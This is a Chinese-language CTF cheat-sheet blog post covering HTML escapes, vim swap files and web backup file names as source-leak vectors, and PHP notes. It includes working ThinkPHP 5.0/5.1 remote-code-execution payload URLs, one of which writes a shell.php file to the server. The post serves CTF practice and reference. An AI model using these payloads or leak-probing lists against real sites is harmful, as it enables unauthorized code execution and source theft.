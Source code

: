 ```yaml
---
title: CTF中琐碎的姿势们
date: 2020-06-16 19:42:02
tags:
  - CTF
categories:
  - 网络安全
---
```


记录CTF中的一些琐碎杂项备忘，方便查找。

<!-- more -->

## HTML

### HTML中的特殊转义字符

| 字符                           | 十进制   | 转义字符   |
| ------------------------------ | -------- | ---------- |
| "                              | `&#34;`  | `&quot;`   |
| &                              | `&#38;`  | `&amp;`    |
| <                              | `&#60;`  | `&lt;`     |
| >                              | `&#62;`  | `&gt;`     |
| 不断开空格(non-breaking space) | `&#160;` | `&nbsp;`   |
| \|                             | `&#166;` | `&brvbar;` |

## Linux

### vim

### .swp/.swo/... 文件

这些文件是vim创建的临时文件。一个文件在vim中打开之后会创建 .swp 文件。如果 .swp 文件已存在，则创建 .swo 文件，若 .swo 文件存在则创建 .swn 文件，以此类推。vim 关闭时这些文件将自动被删除，若vim崩溃或被杀死，则保留。有时可用作 CTF 中源码的来源。

例如：一个叫 `abc.php` 的文件会产生一个名为 `.abc.php.swp` 的临时文件。注意文件最前面有一个小点。

## PHP

### PHP基础

#### -> , => , :: 的区别

`->` 是插入式解引用的符号，用法与C语言相似。`=>` 在数组中常常出现，用来连接键值对。`::` 与C语言中的 `.` 类似，用于调用类的内部成员，或类之间的相互调用。

### .phps

服务器遇php文件会解析。此时若想要读源码要使用phps文件。源码泄露的来源。

### thinkphp5 RCE

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>
```

5.0.x php版本>=5.4

```
http://127.0.0.1/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

还可参见[**Thinkphp**5 RCE总结 – Y4er的博客](https://y4er.com/post/thinkphp5-rce/#5020)。

## 配置错误

### 源码泄露

#### 常见的网站源码备份文件后缀

- tar
- tar.gz
- zip
- rar

#### 常见的网站源码备份文件名

- web
- website
- backup
- back
- www
- wwwroot
- temp